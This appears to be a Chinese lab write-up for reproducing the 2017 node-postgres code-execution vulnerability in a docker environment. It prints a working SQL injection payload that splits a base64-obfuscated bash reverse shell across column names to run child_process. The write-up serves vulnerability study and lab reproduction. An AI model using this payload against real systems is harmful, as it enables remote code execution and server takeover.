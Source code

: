 # node-postgres 代码执行漏洞

## 漏洞原理

node-postgres在处理类型为`Row Description`的postgres返回包时，将字段名拼接到代码中。由于没有进行合理转义，导致一个特殊构造的字段名可逃逸出代码单引号限制，造成代码执行漏洞。

参考链接：

 - https://www.leavesongs.com/PENETRATION/node-postgres-code-execution-vulnerability.html
 - https://node-postgres.com/announcements#2017-08-12-code-execution-vulnerability
 - https://zhuanlan.zhihu.com/p/28575189

## 漏洞复现

编译及运行环境：

```
docker-compose build
docker-compose up -d
```

成功运行后，访问`http://your-ip:3000/?id=1`即可查看到id为1的用户信息，用sqlmap即可发现此处存在注入点，且数据库为postgres：

![](img/1.png)

那么，我们就可以猜测这里存在node-postgres的代码执行漏洞。编写我想执行的命令`echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xNzIuMTkuMC4xLzIxIDA+JjE=|base64 -d|bash`，然后适当分割（每段长度不超过64字符）后替换在如下payload中：

```
SELECT 1 AS "\']=0;require=process.mainModule.constructor._load;/*", 2 AS "*/p=require(`child_process`);/*", 3 AS "*/p.exec(`echo YmFzaCAtaSA+JiAvZGV2L3Rj`+/*", 4 AS "*/`cC8xNzIuMTkuMC4xLzIxIDA+JjE=|base64 -d|bash`)//"
```

将上述payload编码后发送：

![](img/2.png)

成功执行命令，如反弹shell：

![](img/3.png)

因为复现过程中坑比较多，payload生成与测试过程中如果出现错误，还请多多阅读[我的这篇文章](https://www.leavesongs.com/PENETRATION/node-postgres-code-execution-vulnerability.html)，从原理上找到问题所在。